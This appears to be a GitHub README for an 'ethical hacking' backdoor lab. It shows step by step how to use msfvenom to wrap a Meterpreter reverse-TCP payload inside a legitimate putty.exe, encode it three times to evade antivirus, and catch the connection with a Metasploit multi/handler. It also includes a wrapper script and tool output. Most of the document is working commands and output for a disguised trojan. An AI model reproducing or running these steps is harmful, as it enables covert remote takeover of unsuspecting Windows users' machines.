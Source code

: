 # Secu_03
### `Ethical hacking`
we are going to use a trapped file to send to a windows user.
`Lab: backdoor`

* Install putty<hr>
program for remote connections, 
download here <a href="https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html">https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html</a>
<hr>
we will link our putty.exe file to our backdoor.

## console
```terminal
msfvenom -a x86 -x /home/samglish/Téléchargements/putty.exe -k -p windows/meterpreter/reverse_tcp lhost=your_Ip_adress lport=3232 -e x86/shikata_ga_nai -i 3 -b "\x00" -f exe -o hello.exe 
```
I explain to you
* msfvenom a metasploit module that will help us to :
<p>--plateform windows, create a backdoor for windows platform</p>
<p>x86/shikata_ga_nai -i 3 -b "\x00", the module that will help us encode our file so as not to be detected by the antivirus, we encoded it 3 times.</p>
<p>the output file will be hello.exe </p>

`output`
```terminal
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 1 compatible encoders
Attempting to encode payload with 3 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai succeeded with size 408 (iteration=1)
x86/shikata_ga_nai succeeded with size 435 (iteration=2)
x86/shikata_ga_nai chosen with final size 435
Payload size: 435 bytes
Final size of exe file: 1889792 bytes
Saved as: hello.exe
```
let's check if it's the windows exectable.
```terminal
file hello.exe
```
output:
```output
hello.exe: PE32 executable (GUI) Intel 80386, for MS Windows
```
<hr>

## Use my script
```terminal
┌─[✗]─[samglish@parrotOS]─[~/Desktop]
└──╼ $bash testt.sh 
***********************************************************
*                   Ethical Hacking                       *
*                      BACKDOOR                           *
*                      Samglish                           *
***********************************************************
Installing tools...
------------------------------------------------------------
***Metasploit-framework***
Please wait...
 
 Voulez vous creer votre backdoor?
 1. Oui
 2. Non
Choix : 1
votre adresse ip : 172.24.10.4
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 1 compatible encoders
Attempting to encode payload with 3 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai succeeded with size 408 (iteration=1)
x86/shikata_ga_nai succeeded with size 435 (iteration=2)
x86/shikata_ga_nai chosen with final size 435
Payload size: 435 bytes
Saved as: backdoor.exe
backdoor.exe created
nous lancons l'exploit
                                                  
### cowsay++
 ____________
< metasploit >
 ------------
       \   ,__,
        \  (oo)____
           (__)    )\
              ||--|| *


       =[ metasploit v6.0.44-dev                          ]
+ -- --=[ 2131 exploits - 1139 auxiliary - 363 post       ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 8 evasion                                       ]

Metasploit tip: Save the current environment with the 
save command, future console restarts will use this 
environment again

msf6 > 
```
<hr>

## exploit with msfconsole
now we will head to metasploit.
```terminal
msfconsole
```
output:
```output
msf6 > use exploit/multi/handler
```
after
```terminal
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) >set payload windows/meterpreter/reverse_tcp
```
output:
```output
payload => windows/meterpreter/reverse_tcp
```
```terminal
msf6 exploit(multi/handler) > set lhost adress_ip
```
```terminal
msf6 exploit(multi/handler) > set lport 3232
```
`now we launch exploit`
```terminal
msf6 exploit(multi/handler) > exploit
```
```terminal
[*] Started reverse TCP handler on your_ip_adress:3232 
```
All you have to do is copy the hello.exe file and open it on a Windows system.